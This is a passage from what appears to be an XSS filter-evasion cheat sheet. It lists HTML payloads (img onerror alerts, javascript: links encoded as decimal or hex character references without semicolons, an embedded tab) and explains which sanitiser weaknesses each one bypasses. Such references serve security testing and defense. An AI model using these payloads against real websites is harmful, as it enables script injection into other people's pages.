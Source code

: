 ```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

### IMG onerror and JavaScript Alert Encode

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### Decimal HTML Character References

Since XSS examples that use a `javascript:` directive inside an `<IMG` tag do not work on Firefox this approach uses decimal HTML character references as a workaround:

```html

 <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Click Me!</a>
```

### Decimal HTML Character References Without Trailing Semicolons

This is often effective in bypassing XSS filters that look for the string `&\#XX;`, since most people don't know about padding - which can be used up to 7 numeric characters total. This is also useful against filters that decode against strings like `$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/;` which incorrectly assumes a semicolon is required to terminate a HTML encoded string (This has been seen in the wild):

```html
<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a>
```

### Hexadecimal HTML Character References Without Trailing Semicolons

This attack is also viable against the filter for the string `$tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;`, because it assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters:

```html
<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click Me</a>
```

### Embedded Tab

This approach breaks up the XSS attack:


```html
 <a href="jav	ascript:alert('XSS');">Click Me</a>
```
